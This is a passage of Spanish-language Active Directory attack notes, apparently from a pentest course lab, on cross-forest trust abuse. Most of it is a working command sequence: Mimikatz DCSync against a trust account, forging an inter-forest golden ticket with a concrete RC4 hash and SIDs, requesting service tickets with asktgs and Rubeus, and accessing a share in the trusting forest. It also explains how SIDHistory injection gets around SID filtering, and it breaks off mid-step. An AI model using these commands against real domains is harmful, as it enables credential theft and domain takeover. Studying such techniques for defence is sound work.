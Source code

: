     `Invoke-Mimikatz -Command '"lsadump::dcsync
    /user:eu\euvendor$"'`

- Se puede forjar un TGT entre bosques:

    `Invoke-Mimikatz -Command '"kerberos::golden 
    /user:Administrator /domain:eu.local /sid:S-1-5-21-
    3657428294-2017276338-1274645009 
    /rc4:799a0ae7e6ce96369aa7f1e9da25175a /service:krbtgt /target:euvendor.local /sids:S-1-5-21-4066061358-3942393892-617142613-519 
    /ticket:C:\AD\Tools\kekeo_old\sharedwitheu.kirbi"'`

- Obtenga un TGS para un servicio (CIFS a continuación) en el bosque de destino mediante el vale de confianza falsificado.

    `.\asktgs.exe C:\AD\Tools\kekeo_old\sharedwitheu.kirbi CIFS/euvendor`

- También se pueden crear tickets para otros servicios (como HOST y RPCSS para WMI, HOST y HTTP para PowerShell Remoting y WinRM):
- Utilice el TGS para acceder al recurso de destino que debe compartirse explícitamente:

    `.\kirbikator.exe lsa CIFS.euvendor-dc.euvendor.local.kirbi`

    `ls \\euvendor-dc.euvendor.local\eushare\`

- Con Rubeus:

    `C:\Users\Public\Rubeus.exe asktgs
    /ticket:C:\Users\Public\sharedwitheu.kirbi
    /service:CIFS/euvendor-dc.euvendor.local /dc:euvendordc.euvendor.local /ptt`

- Esto está bien, pero ¿por qué no podemos acceder a todos los recursos como Intra Forest?
- El filtrado SID es la respuesta. Filtra los SID de alto privilegio del SIDHistory de un TGT que cruza el límite del bosque. Esto significa que no podemos simplemente seguir adelante y acceder a los recursos en el bosque de confianza como administradores de empresa.
- Pero hay una trampa:

    ![Cross%20Forest%20Attacks%2076dc085b3f9b46cdb291455124819d5c/Untitled.png](/assets/images/images_AD/Cross%20Forest%20Attacks/Untitled.png)

    Esto significa que, si tenemos una confianza externa (o una confianza de bosque con el historial de SID habilitado,/ enabledidhistory: sí), podemos inyectar un SIDHistory para RID> 1000 para acceder a los recursos accesibles a esa identidad o grupo en el bosque de confianza de destino.

- Tuvimos acceso DA a eu.local. Enumeremos los fideicomisos de una sesión de PSRemting en eu-dc:

    `Get-ADTrust -Filter *`

- SIDFilteringForestAware se establece en True, lo que significa que SIDHistory está habilitado en la confianza del bosque.
- Recuerde que todavía solo se permitirán RID> 1000 SID a través del límite de confianza.

    `Get-ADGroup -Identity EUAdmins -Server euvendor.local`

- Desde eu-dc, cree un TGT con SIDHistory del grupo EUAdmins:
